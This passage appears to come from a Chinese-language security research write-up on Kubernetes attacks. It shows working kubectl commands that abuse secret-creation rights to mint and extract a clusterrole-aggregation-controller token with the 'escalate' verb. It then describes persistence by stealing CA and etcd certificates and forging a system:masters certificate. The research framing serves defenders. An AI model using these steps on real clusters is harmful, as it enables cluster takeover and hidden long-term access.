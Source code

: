 拥有了 create 和 get secret、描述角色/角色绑定、描述集群角色/集群角色绑定权限的攻击者，可以确定哪些服务帐户具有高权限，并设法拿到这些服务帐户。然后，他们可以创建一个新的 ServiceAccount 令牌 secret，并利用该令牌 secret 来使用和该"服务账户"绑定的那些权限，通过 k8sAPI 身份验证。

攻击者可以用来提升权限的另一种办法是：获取 clusterrole-aggregation-controller"服务账户"的 secret。这个角色具有升级动词，可用于实现集群管理（升级动词允许攻击者绕过“k8s 对提升权限的限制”）。

本次的研究环境没有创建 secret，而是使用了能够创建 secret 权限的"服务账户"，然后获取了创建的"服务账户"secret。

在 kube-system 命名空间里创建 escalation secret

```bash
# 创建具有"升级权限"的 token
kubectl --certificate-authority /var/lib/kubelet/pods/d043faea-ba2a-4302-ba04- 80a38dade827/volumes/k8s.io~projected/kube-api-access-b84hf/ca.crt --token=$(cat /root/create-secrets-token) --namespace=kube-system --server=https://192.168.10.100:6443 create -f create-sa-token.yaml secret/clusterrole-aggregation-controller created

# 获取新创建的 secret
kubectl --certificate-authority /var/lib/kubelet/pods/d043faea-ba2a-4302-ba04- 80a38dade827/volumes/k8s.io~projected/kube-api-access-b84hf/ca.crt --token=$(cat /var/lib/kubelet/pods/d043faea-ba2a-4302-ba04- 80a38dade827/volumes/k8s.io~projected/kube-api-access-b84hf/token) --namespace=kube-system --server=https://192.168.10.100:6443 get secrets clusterrole-aggregation-controller -o yaml | grep token | grep -v k8s | cut -f 2 -d ':' | tr -d ' ' | base64 -d > /root/clusterrole-aggregation-controller-token

# 执行 auth can-i，发现这个新的 scret 具有升级权限
kubectl --certificate-authority /var/lib/kubelet/pods/d043faea-ba2a-4302-ba04- 80a38dade827/volumes/k8s.io~projected/kube-api-access-b84hf/ca.crt --token=$(cat /root/clusterrole-aggregation-controller-token) --namespace=kube-system --server=https://192.168.10.100:6443 auth can-i --list

Resources                        Verbs
clusterroles.rbac.authorization.k8s.io      [escalate get list patch update watch]
```

## 后渗透阶段

一旦攻击者实现了集群管理，就可以开始“后渗透阶段”：做好权限维持，避免初始攻击方法被发现、被清理。

k8s 中有许多路径实现权限维持：Linux 环境下攻击者可以利用这些权限维持方法。

### System:Masters Group

攻击者 (cluster admin) 可以在任何一个 control plane 节点上建立据点，并窃取 `/etc/k8s/pki`里的 CA 证书。

攻击者还可以窃取 k8s 和 ETCD 证书。这样，攻击者可以通过“k8s API”和 (承载 k8s 环境所有信息的)“ETCD 数据库”的身份验证，拿到 ETCD 的内容，并进一步渗透。

k8s 证书可以在`system:master`组中创建一个新的 user。

`system:masters`组能够不受限制地访问 k8s API，无需任何角色或角色绑定。

每个角色和角色绑定都可以从 k8s 环境中删除，但是，能访问`system:masters`组的攻击者仍然对整个集群具有完整的管理权限。

在 system:masters 组中创建帐户说起来容易做起来难，因为它在 k8s 内被一个名为 CertificateSubjectRestriction 的准入控制器阻止，虽然这个准入控制器不会批准 system:masters 组的证书签名请求，但攻击者仍然可以使用其他工具（如 openssl）创建证书。如果攻击者拥有来自 Control Plane node 的有效 CA 证书，他们可以在另一台计算机上创建他们的用户证书，并使用它们实现完全控制。
